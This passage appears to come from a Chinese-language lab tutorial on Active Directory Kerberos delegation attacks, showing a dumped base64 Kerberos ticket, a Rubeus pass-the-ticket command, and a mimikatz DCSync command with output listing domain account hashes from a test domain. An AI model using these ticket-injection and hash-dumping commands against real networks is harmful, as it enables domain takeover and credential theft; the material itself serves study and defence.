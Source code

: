 ```plain
 forwardable
  Base64EncodedTicket   :

    doIFZDCCBWCgAwIBBaEDAgEWooIEfDCCBHhhggR0MIIEcKADAgEFoQkbB1NFQy5DT02iHDAaoAMC
AQKhEzARGwZrcmJ0Z3QbB1NF
    Qy5DT02jggQ+MIIEOqADAgESoQMCAQKiggQsBIIEKA9699rmofrtCz+49FbTdlOj3xtES84XlTRn
ulH2zq1BcIYr+TWF/js0YHKU
    N04aVdsaYopO1fmeijVxd5TsPdTitH3NufgXsGOp7h4AWfPjF8msCXZohtT6hkgMHsYvSPX/GeYB
t1ceZ2/dy8qpnasSH0GLHXlV

.........
```

转换导入票据

```plain
C:\Users\Administrator\Desktop>Rubeus.exe ptt /ticket:doIFZDCCBWCgAw.......
```

尝试导出域内所有用户的Hash

```plain
C:\Users\Administrator\Desktop\mimikatz-master\x64>mimikatz.exe "lsadump::dcsync
 /all /csv"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /all /csv
[DC] 'sec.com' will be the domain
[DC] 'DC1.sec.com' will be the DC server
[DC] Exporting domain 'sec.com'
1106    machine1$       8db91dfa87876659d76b5f9106d243eb        4096
1109    hack    31d6cfe0d16ae931b73c59d7e0c089c0        514
1107    machine2$       8db91dfa87876659d76b5f9106d243eb        4096
.......

mimikatz # exit
```

# 四、配置约束性委派攻击
## 1、实验
配置test2用户的委派属性为非约束性委派
